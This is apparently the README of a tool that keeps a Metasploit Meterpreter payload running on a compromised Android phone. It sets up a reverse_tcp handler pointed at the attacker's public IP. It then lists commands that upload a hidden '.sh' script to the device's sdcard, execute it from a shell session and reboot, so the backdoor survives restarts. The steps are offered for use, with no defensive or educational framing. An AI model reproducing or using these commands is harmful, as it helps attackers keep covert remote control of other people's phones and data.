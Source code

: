 # MSF PERSISTANCE ANDROID

## INDEX

- [MSF PERSISTANCE ANDROID](#msf-persistance-android)
  - [INDEX](#index)
  - [BADGES](#badges)
  - [INTRODUCTION](#introduction)
  - [PREREQUISITES](#prerequisites)
  - [USE](#use)
  - [LICENSE](#license)

## BADGES

[![pipeline status](https://gitlab.com/oda-alexandre/msf-persistance-android/badges/master/pipeline.svg)](https://gitlab.com/oda-alexandre/msf-persistance-android/commits/master)

## INTRODUCTION

This script allows the persistence of the payload on Android smartphone with Metasploit.

## PREREQUISITES

Use [Metasploit](https://www.metasploit.com/)

## USE

1 - Put the msf-persistance-android script in your personal folder and rename .sh

2 - Open MSF

```use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set lhost YOUR IP PUBLIC
set lport THE PORT OF YOUR CHOICE
exploit
```

3 - Copie/Paste in a terminal in shell MSF with a session android/meterpreter/reverse_tcp

```cd /
cd sdcard
upload ~/.sh
shell
cd /
cd sdcard
sh .sh
reboot
exit
```

## LICENSE

[![GPLv3+](http://gplv3.fsf.org/gplv3-127x51.png)](https://gitlab.com/oda-alexandre/msf-persistance-android/blob/master/LICENSE)
